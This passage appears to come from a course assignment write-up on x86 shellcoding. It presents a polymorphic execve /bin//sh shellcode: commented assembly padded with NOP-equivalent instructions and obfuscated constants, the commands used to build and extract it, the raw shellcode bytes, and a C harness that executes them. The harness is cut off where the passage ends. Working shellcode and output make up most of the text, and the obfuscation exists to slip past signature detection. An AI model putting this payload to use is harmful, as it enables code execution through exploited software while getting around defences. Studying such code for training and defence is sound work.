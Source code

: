 ###### Final code:

```term
global _start

_start:

       sahf                      ; Should store instructions. However, it is used as a NOP equivalent.

       xor    eax,eax            ; Zeroes out EAX.
       pushad                    ; Should save the current flags. However, it is used as a NOP equivalent.
       push   eax                ; Pushes the dword of EAX (0x00000000).

       cld                       ; Should clear the direction flag. However, it is used as a NOP equivalent.
       mov esi, 0x68732f2e       ; Saves value "hs/.". If incremented by 1, it should possess value "hs//".
       inc esi                   ; Increments ESI.
       cdq                       ; Zeroes out EDX. Also a NOP Equivalent.
       mov edi, 0x6e69622e       ; Saves value "nib.". If incremented by 1, it should possess value "bin/".
       inc edi                   ; Increments EDI.

       push esi                  ; Pushes the value of ESI ("hs//").
       std                       ; NOP Equivalent.
       push edi                  ; Pushes the value of EDI ("bin/").

       mov ebx, esp              ; Saves the value of ESP in EBX.
       cld                       ; NOP Equivalent.
       cmc                       ; NOP Equivalent.

       mov al, 11                ; Calls execve.
       int 0x80                  ; Calls to kernel.
```

Let's dump the shellcode and test it!

```term
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# nasm -f elf32 1.asm -o 1.o && ld 1.o -o 1 
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# objdump -d ./1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 
's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x9e\x31\xc0\x60\x50\xfc\xbe\x2e\x2f\x73\x68\x46\x99\xbf\x2e\x62\x69\x6e\x47\x56\xfd\x57\x89\xe3\xfc\xf5\xb0\x0b\xcd\x80"
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode#
```

```term
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x9e\x31\xc0\x60\x50\xfc\xbe\x2e\x2f\x73\x68\x46\x99\xbf\x2e\x62\x69\x6e\x47\x56\xfd\x57\x89\xe3\xfc\xf5\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();
```